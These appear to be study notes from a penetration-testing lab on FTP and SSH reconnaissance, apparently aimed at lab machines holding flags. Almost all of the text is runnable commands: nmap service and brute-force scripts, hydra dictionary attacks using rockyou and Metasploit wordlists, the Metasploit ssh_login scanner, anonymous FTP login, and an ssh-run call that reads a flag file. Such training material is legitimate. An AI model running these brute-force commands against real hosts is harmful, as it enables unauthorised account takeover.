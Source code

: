 
### ProFTP Recon: Basics
what is the version of ftp server
	nmap -sV ip
use hydra to get the username and password
	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ip -t ftp
find the password of user sysadmin using nmap
	echo "sysadmin" > users
	nmap --script ftp-brute --script-args userdb=/root/users -p21 ip
login to ftp server with these login credentials
	ftp ip
	ls 
	get secret.txt
	exit
	cat secret.txt

### FTP Anonymous Login VSFTPD Recon: basics
find the version of vsftpd server
	nmap -sV ip
check if the ftp allow anonymous login
	nmap --script ftp-anon ip
	ftp ip 21
	ls
	get flag
	cat flag



### SSH Recon Basics
find the version of ssh server
	nmap -sV ip
fetch the banner of ssh server
	nc ip 22
login with ssh (see if anonymous login allowed)
	ssh root@ip
u could see how many encryption algorithms are supported by ssh server 
	nmap -p22 --script ssh2-enum-algos ip
u can see what is ssh-rsa could by using this  script
	nmap -p22 --script ssh-hostkey --script-args ssh_hostkey=full ip
authentication methods
	nmap -p22 --script ssh-auth-methods --script-args="ssh.user=student" ip
	nmap -p22 --script ssh-auth-methods --script-args="ssh.user=admin" ip
get the flag from /home/student/flag using nmap
	nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,
ssh-run.username=student,ssh-run.password=" 192.201.39.3


### SSH Recon: Dictionary Attack
(bruteforce with hydra)
	gzip -d /usr/share/wordlists/rockyou.txt.gz
	hydra -l student -P /usr/share/wordlists/rockyou.txt ip ssh
(bruteforce with nmap)
	echo "administrator" > users
	nmap -p22 --script ssh-brute --script-args userdb=/root/users ip
(bruteforce with msfconsole)
	msfconsole
	use auxiliary/scanner/ssh/ssh_login
	set RHOST ip
	set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
	set STOP_ON_SUCCESS true
	set verbose true
	exploit
login with ssh root